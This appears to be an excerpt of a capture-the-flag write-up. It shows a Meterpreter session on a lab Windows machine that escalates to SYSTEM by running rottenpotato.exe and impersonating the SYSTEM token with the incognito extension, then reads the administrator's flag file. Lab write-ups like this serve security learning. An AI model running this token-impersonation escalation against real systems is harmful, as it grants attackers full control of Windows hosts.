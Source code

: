 Mode Size Type Last modified Name  
---- ---- ---- ------------- ----  
100666/rw-rw-rw- 845 fil 2017-09-17 16:50:12 -0400 FTP.lnk  
100666/rw-rw-rw- 17152 fil 2017-10-19 16:49:59 -0400 SPBestWarmUp.ps1  
100666/rw-rw-rw- 11010 fil 2017-10-19 17:48:44 -0400 SPBestWarmUp.xml  
100666/rw-rw-rw- 1914 fil 2017-09-17 16:48:49 -0400 SQLCMD.lnk  
100555/r-xr-xr-x 916 fil 2017-10-01 17:32:39 -0400 browser.bat  
100666/rw-rw-rw- 282 fil 2017-08-31 17:57:02 -0400 desktop.ini  
100666/rw-rw-rw- 297 fil 2017-09-23 16:11:01 -0400 note to tim (draft).txt  
100777/rwxrwxrwx 679936 fil 2018-05-15 06:12:11 -0400 rottenpotato.exe  
100666/rw-rw-rw- 129 fil 2017-09-20 19:46:51 -0400 todo.txt  
100444/r--r--r-- 32 fil 2017-08-30 21:04:26 -0400 user.txt  
100666/rw-rw-rw- 936 fil 2017-09-17 16:49:32 -0400 zz_Migration.lnk

meterpreter > use incognito  
Loading extension incognito...Success.  
meterpreter > list_tokens -u  
[-] Warning: Not currently running as SYSTEM, not all tokens will be available  
Call rev2self if primary process token is SYSTEM

Delegation Tokens Available  
========================================  
NT SERVICE\SQLSERVERAGENT  
TALLY\Sarah

Impersonation Tokens Available  
========================================  
No tokens available

meterpreter > execute -Hc -f ./rottenpotato.exe  
Process 752 created.  
Channel 3 created.

meterpreter > list_tokens -u  
[-] Warning: Not currently running as SYSTEM, not all tokens will be available  
Call rev2self if primary process token is SYSTEM

Delegation Tokens Available  
========================================  
NT SERVICE\SQLSERVERAGENT  
TALLY\Sarah

Impersonation Tokens Available  
========================================  
NT AUTHORITY\SYSTEM

meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"  
[-] Warning: Not currently running as SYSTEM, not all tokens will be available  
Call rev2self if primary process token is SYSTEM  
[-] No delegation token available  
[+] Successfully impersonated user NT AUTHORITY\SYSTEM  
meterpreter > getuid  
Server username: NT AUTHORITY\SYSTEM

meterpreter > cat C:\\Users\\Administrator\\Desktop\\root.txt  
608#########################3eda